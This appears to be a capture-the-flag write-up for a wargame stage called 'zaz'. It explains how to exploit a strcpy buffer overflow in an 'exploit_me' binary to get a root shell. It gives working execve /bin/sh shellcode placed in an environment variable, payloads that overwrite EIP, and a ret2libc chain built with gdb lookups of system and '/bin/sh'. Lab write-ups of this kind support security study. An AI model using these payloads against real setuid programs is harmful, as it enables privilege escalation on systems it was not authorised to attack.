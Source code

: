 # zaz

## Scripts

| Script name | Exploit | Usage |
| ----- | ---- | ----- |
| [payload.py](./payload.py)  | Buffer overflow | `./exploit_me $(python payload.py)`
| [payload2.py](./payload2.py) | Buffer overflow | `./exploit_me $(python payload2.py)`
| [payload3.py](./payload3.py) | Buffer overflow | `./exploit_me $(python payload3.py)`
| [payload4.sh](./payload4.sh) | ret2env | `export PEPEGA` from script + `bash payload4.sh`
| [return-to-plt.py](./return-to-plt.py) | ret2libc | `./exploit_me $(python return-to-plt.py)`

<hr>

So in use_me or whatever that binary is named oh right its `exploit_me`, anyway

Decompiling `exploit_me` with ghidra gives the following source code:
```c
bool main(int ac, int av) {
    char buf[140];
  
    if (1 < ac) {
        strcpy(buf, av[1]);
        puts(buf);
    }
    return ac < 2;
}
```

We found several methods solve this stage.

The methods are `ret2libc`, `buffer overflow`, and we don't actually have official name for the third one
so let's call it `ret2env`.
  
`strcpy` does no check for length of source of data, copying everything to `buf`;

Re-check with gdb if needed, or just read [this](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html). 

We have our cpy buffer at `ebx`, it's length is 140 bytes (check `sub` instruction
in main, there's an allocation of 144 bytes being the buff + ptr, confirm with 141-length string if needed)

Right after that buff there goes `eip`, which contains the address of THE NEXT INSTRUCTION TO BE DONE

So basically we can overwrite this instruction with smth that will call `\bin\sh`

<hr>

## First solution (Shellcode)

Read about it if you want, basically it's machine code which if executed actially launches a new shell.
So what we can do is for instance export it to env, get it's address and overwrite `EIP` with it.
Boom, we got it working.

```bash
export PEPEGA=`python -c 'print("\x90"*4 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`

./exploit_me python -c "print('A' * 140 + '\xa7\xfe\xff\xbf')"
```

The address here is changable, each time we export this shit or re-launch the vm the address may and probably will change.
That's ok, we can easily check it with a nice script like this:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	printf("%p\n", getenv("PEPEGA"));
}
```

The 140 being the buff size, so after it's all used up we are effectivly overwriting the `EIP` value,
making the binary execute smth else.

<hr>

## Second solution

The second method would be writing actual `system("\bin\sh")`.<br>
Now, gdb allows us to do get all the info we need to do it.

We find `system`'s addres fairly easy, we just need to launch the binary and ask `gdb` nicely
```
> p system
address
```

Now making it eat `bin\sh` has proven to be a bit more of a fuss, all my attempts to feed it as an
env var failed completely for reasons unknown. Then I decided to read through my notes from rainfall
a bit more carefully, only to find that libc actually contains a mention of "bin\sh" in it, an old 
and well known thing.

So we find it's address with [this](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/).

`info proc map` prints all the mapped addresses as intervals for currently launched binary
now, the binary having libc has all of it mapped.
including the "bin\sh" string.

We will have smth like this in our results:

```console
0xf7e20000 0xf7fcd000   0x1ad000        0x0 /home/vignesh/Documents/libc.so.6
0xf7fcd000 0xf7fce000     0x1000   0x1ad000 /home/vignesh/Documents/libc.so.6
0xf7fce000 0xf7fd0000     0x2000   0x1ad000 /home/vignesh/Documents/libc.so.6
0xf7fd0000 0xf7fd1000     0x1000   0x1af000 /home/vignesh/Documents/libc.so.6
```

being the libc mapped and all it's addresses

So, what we have left to do is this:
```
(gdb) find 0xf7e20000, 0xf7fd1000 , "/bin/sh"
```
with first address being the beginning of first libc part, second address being the last libc part

```
1 pattern found.
(gdb) x/s 0xf7f78e8b
0xf7f78e8b: "/bin/sh"
```
(yeah, that's from the article, in vm we will have smth else)

The actual result brings us to the following: 

```bash
./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "pepe" + "\x58\xcc\xf8\xb7"')
```

Here we see the 140 bytes again to overwrite the buffer, next therese's an address of `system`,
that goes into `EIP`. Yet we don't stop, after system launches, it will look into the memory for the
following things: exit fucntion address, string argument address.

Now, disas system if you want, I simply did read it in the same article and assumed it was true,
anyway, that's what system does, so first we need to write 4 bytes, we can actually
write an address of some function here to make it work properly, but used a 4 bytes of "pepe",
coz who doesn't like pepe, right?

Anyway, then we get the string arg address, and that is the one of `bin/sh` from libc, it doesn't really
care where it comes from, it just need to read the line.

Boom, we r root.